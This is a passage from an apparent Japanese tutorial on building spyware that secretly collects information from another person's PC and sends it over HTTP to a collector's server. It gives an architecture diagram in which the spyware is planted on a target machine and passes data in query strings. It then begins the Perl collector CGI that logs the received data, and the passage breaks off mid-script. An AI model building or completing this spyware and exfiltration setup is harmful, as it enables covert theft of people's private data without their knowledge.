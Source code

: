 　分かりやすく解釈するならば「他人のＰＣに保存されている情報を収集するソ
フト」ということでしょう。まさにスパイなわけですが、ウイルスやトロイ、バ
ックドアなどと違うところは、あくまで情報を収集するだけであり、任意のプロ
グラムを実行させたり、破壊活動を行ったりしないことです。ファイルを改竄し
たり、外部からの侵入を許すプログラムではなく、ただＰＣ内の情報を外部に漏
らすだけのプログラムといえます。


■0x03.) 概要

　インターネットでもっとも身近なプロトコルといえばおそらくHTTPでしょう。
このプロトコルを利用してＰＣ内部の情報を外部に送信するプログラムを作成
します。どういった仕組みで行うのかを以下に示します（図１）。

                       （1.収集者が運営するＨＰにデータ保存を行うCGIを設置）
+--------+（4.取得）+-----------------------------------+
| 収集者 |<---------| HTTPサーバ（データを保存するCGI） |
+--------+          +-----------------------------------+
   |
   |                               ↑（3.スパイウェアがCGIにアクセス）
   |（2.なんらかの方法で仕込む）
   |                +-----------------------------------+
   +--------------->| ターゲットＰＣ（スパイウェア設置）|
                    +-----------------------------------+
                                                  （図１）

　仕組みとしてはシンプルなものです。スパイウェアはターゲットＰＣのなかで
こっそりとHTTPクライアントとして動作し、情報をCGIに渡していきます。そのC
GIは例えばクエリ文字列をファイルに保存するようなものにしておいて、スパイ
ウェアはターゲットＰＣの情報をクエリ文字列にいれてHTTPクライアントとして
CGIにアクセスします。CGIはクエリ文字列をファイルに保存。ＰＣの情報はサー
バにファイルとして保存されて、収集者はＨＰからファイルをＤＬすることによ
ってターゲットＰＣの情報を閲覧することができます。

　では最初にHTTPサーバにおくべきCGIを作成します。これはクエリ文字列（ＨＰ
アドレスの'?'以降の文字列）を保存するだけの簡単なものにします。ログ閲覧の
ために、クエリに"log"という文字列を渡すとファイルに保存されているデータを
出力するようにします。

-----  save.cgi
#!/usr/bin/perl

$LogFile = 'log.txt';
$data    = $ENV{'QUERY_STRING'};
print "Content-Type: text/html\r\n\r\n";
print << "HEAD";
<html>
<head><title>spyware test</title></head>
<body>
HEAD
if( $data eq "log" ) {
    print '<pre>' . "\n";
    open( RD, $LogFile );
        @lines = <RD>;
        close( RD );
    foreach( @lines ) {
        print $_;
    }
    print '</pre>' . "\n";
}elsif( $data ) {
    open( WR, ">>$LogFile" );
    flock( WR, 2 );
    print WR "$data\n";
    close( WR );